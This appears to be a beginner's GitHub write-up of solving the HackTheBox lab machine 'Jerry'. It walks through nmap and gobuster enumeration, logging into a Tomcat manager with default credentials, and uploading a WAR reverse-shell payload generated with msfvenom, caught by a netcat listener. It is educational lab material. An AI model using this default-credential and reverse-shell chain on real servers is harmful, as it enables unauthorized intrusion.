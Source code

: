 # About me

Welcome all to my ``Offensive Security`` journey and first ever write up.
I have been active on ```HackTheBox``` and `Tryhackme` since December 2020.
However I have only been able to work on few  machines during the last two years while learning about ```Info-Sec``` fundamentals on ```TryHackMe``` and others few online platforms, also while I completed my degree.

Before we dive in the write up  for the first machine i Pwned that is```Jerry``` ,it's important to note that prior rooting the first machine on ```Hackthebox``` I have quasi zero experience in ``Hacking`` neither in infornation security. Since then I have been on mission to learn more about information. I then dedicated myself to pursue knowledge in this interesting field.

If you are new to ```Cyber Security```, there are many platforms out there that can help you get the knowledge .
As of now I am still learner and I believe in this industry ```Learning don't Stop```. I am currently going for my first certification that is the ```eJPT``` from ```Elearnsecurity```. in the next step I would be guiding to how i hacked my first machine on Hackthebox.

# Set-up

Note that i left out some of the step I took like, setting up the box, connecting to the vpn and more. let's get into now.

# Jerry


![ping](https://user-images.githubusercontent.com/61636217/175174375-06a23643-f5d6-4390-a405-267d623c635b.png)




From the ping command we can identify that our target machine runs on ```Windows OS``` by looking at the ```TTL(Time to live)``` response. This a trick that I learned from some of the big names I watched sovling boxes on Youtube.
We have ping the machine and it echoed back to us.
Now we will proceed on scanning for open ports and enumerate all services running on our target machine.

To discover what services are currently running on the target machine, I used ```Nmap``` however there other tools that can give you the same output as ```nmap```.


# Nmap


```Nmap -sC -sV -T4  -Pn <IP Address> -oN <outputfile>```

```sC``` is for default scripts scan.
```sV``` is for version of the services runnimg.
```T4``` is the speed of the scan. not that, this method is crucial because you don't want to make to much noise in the network traffic so declaring a speed of four the best you need for a fast scan.
```oN``` is redirect that fouding into a file. This you would nao

![scan](https://user-images.githubusercontent.com/61636217/173915915-977a8bd6-0ef2-4280-8b91-0ac00db0a277.png)

# Gobuster

After we have ran the ```Nmap``` command we have discovered that there is 2 open ports on our target machine.

```22``` & ``8080``. We noticed that a Tomcat is running on that machine.
Before going deep in the attack we must first try enumerate some port on port 8080 to find out what directory are hosted in the application adn for that I ran ```Gobuster``` for directory discovery.

``` gobuster dir --url  http://<ip> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100```
we discover an interesting directory ```Manager```.
From this step there are differents way you can plan your attack. Here We are going to exploit a misconfigure Tomcat Server.
by default All Tomcat creds are ```tomcat``` & ```s3cret```. but there are other ways to get creds.Navitgating to that Manager directory on port 8080 we prompted with sign in option. to get creds the easy way is the hit the ```cancel``` button and you will redirected to a ```401 Unauthorized``` that display the credentials in plain text. Or you can use ``Metasploit`` to run an exploit against Tomcat server to get the credentials.

# Attack

![8080](https://user-images.githubusercontent.com/61636217/175167658-cc992ea4-6978-43ab-ad94-e186c93ab26d.png)

![signin](https://user-images.githubusercontent.com/61636217/175167703-d26fcaa2-e862-45e8-ae76-ed85f98c9fda.png)


![creds](https://user-images.githubusercontent.com/61636217/175167731-af77b831-5f62-4c9a-b87a-d3bd4ad4ba48.png)

![manager](https://user-images.githubusercontent.com/61636217/175167776-b4adf04a-afc3-4998-b984-2b408783d7aa.png)

Looking at that last picture after we have successfully logged in the application we see that we have an option to upload a war file.
This is our point of entry to the system. Back on my console I created a war file payloads with ```msfvenom``` to get a reverse shell.
the command I ran ```msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f <File_extension> -o <file_output.war>```
I then had my payload ready to get uploaded on the target application with a listener that I had ready to receive connection from our targer after we have executed tha file that we uploaded on the server. the command was ``nc -lnvp <Port>``.

![shell](https://user-images.githubusercontent.com/61636217/175169884-bacaa480-f6a3-480a-96d8-db75e03d506a.png)

Our payloads executed well and gave us a shell. We then proceed to navigate our in the target system to retreive the flags.


![flags](https://user-images.githubusercontent.com/61636217/175169915-39c55c4d-b7a1-408e-926f-4c42c5990559.png)

For this machine we did not need to escalated our privileges  to get the root flag because we had the ``` Two for one ``` flags in one file.
This was my first machine I worked on on ```Hackthebox``` it is realistic as Apache Tomcat who is often found configured with common or weak credentials.


